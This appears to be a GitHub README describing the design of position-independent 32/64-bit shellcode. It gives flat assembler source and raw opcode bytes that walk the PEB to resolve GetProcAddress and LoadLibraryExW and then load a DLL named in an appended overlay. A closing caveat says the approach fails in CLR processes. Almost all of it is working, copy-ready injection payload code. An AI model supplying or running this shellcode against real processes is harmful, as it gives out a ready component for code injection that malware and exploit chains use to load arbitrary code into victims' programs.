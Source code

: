 
## shellcode design
thank [flatassembler](https://flatassembler.net)


### auto exec code(32bit/64bit)
```
    use64
    call $+5
    pop rcx ; get pc
    add rcx, @OVERLAY-$+1 ; overlay offset
    call @AUTORUN
    ret
@RETV:
    dq 0, 0 ; ret buffer

@AUTORUN:
    call @CHKENV32
    test rax, rax
    je @ENV64
@ENV32:
    use32
    call CALL32
    mov ecx, [esp]
    lea ecx, [ecx+1]
    mov [ecx], eax
    jmp @DONE
@ENV64:
    use64
    call CALL64
    mov rcx, [rsp]
    lea rcx, [rcx+1]
    mov [rcx], rax
@DONE:
    ret

@CHKENV32:
    db 31h, 0C0h, 48h, 0Fh, 88h, 00h, 00h, 00h, 00h, 0C3h
```


### Wrapper LoadLibraryExW [extract function address in PEB](https://github.com/NytroRST/ShellcodeCompiler)
```
CALL32:
    use32
    push ecx
    call @LOADEXW32
    pop ecx
PROC32:
    push 0
    push 0
    push ecx
    call eax    ; LoadLibraryExW
    ret

CALL64:
    use64
    push rcx
    sub rsp, 0x30
    call @LOADEXW64
    add rsp, 0x30
    pop rcx
PROC64:
    sub rsp, 0x28
    xor r8d, r8d
    xor rdx, rdx
    call rax    ; LoadLibraryExW
    add rsp, 0x28
    ret


; 64: PEB->kernel32.LoadLibraryExW 
@LOADEXW64:
48 83 EC 28 48 83 E4 F0 48 31 C9 65 48 8B 41 60 
48 8B 40 18 48 8B 70 20 48 AD 48 96 48 AD 48 8B 
58 20 4D 31 C0 44 8B 43 3C 4C 89 C2 48 01 DA 48 
31 C9 B1 88 48 01 D1 44 8B 01 49 01 D8 48 31 F6 
41 8B 70 20 48 01 DE 48 31 C9 49 B9 47 65 74 50 
72 6F 63 41 48 FF C1 48 31 C0 8B 04 8E 48 01 D8 
4C 39 08 75 EF 48 31 F6 41 8B 70 24 48 01 DE 66 
8B 0C 4E 48 31 F6 41 8B 70 1C 48 01 DE 48 31 D2 
8B 14 8E 48 01 DA 48 89 D7 B9 61 72 79 41 51 48 
B9 4C 6F 61 64 4C 69 62 72 51 48 89 E2 48 89 D9 
48 83 EC 30 FF D7 48 83 C4 30 48 83 C4 10 48 89 
C6 48 31 C0 48 B8 61 72 79 45 78 57 00 00 50 48 
B8 4C 6F 61 64 4C 69 62 72 50 48 89 E2 48 89 D9 
48 83 EC 30 FF D7 48 83 C4 40 48 83 C4 28 C3

; 32: PEB->kernel32.LoadLibraryExW
@LOADEXW32:
31 C9 64 8B 41 30 8B 40 0C 8B 70 14 AD 96 AD 8B
58 10 8B 53 3C 01 DA 8B 52 78 01 DA 8B 72 20 01
DE 31 C9 41 AD 01 D8 81 38 47 65 74 50 75 F4 81
78 04 72 6F 63 41 75 EB 81 78 08 64 64 72 65 75
E2 8B 72 24 01 DE 66 8B 0C 4E 49 8B 72 1C 01 DE
8B 14 8E 01 DA 31 C9 53 52 51 68 61 72 79 41 68
4C 69 62 72 68 4C 6F 61 64 54 53 FF D2 83 C4 0C
59 50 31 C0 66 B8 78 57 50 68 61 72 79 45 68 4C
69 62 72 68 4C 6F 61 64 54 FF 74 24 1C FF 54 24
1C 83 C4 10 83 C4 0C C3
```

## overlay
```
; MODULE PATH
@OVERLAY:
du 'TEST.dll', 0
```

## Warning ！！！
Note: [NytroRST/ShellcodeCompiler](https://github.com/NytroRST/ShellcodeCompiler), does not take the CLR process into account, resulting in the second module from `PEB::PEB_LDR_DATA::InMemoryOrderModuleList`, which does not match the module name correctly, and defaults to treating the second module as a kernel32, while the CLR process The second module is `MSCOREE`, so the program does not support CLR processes.

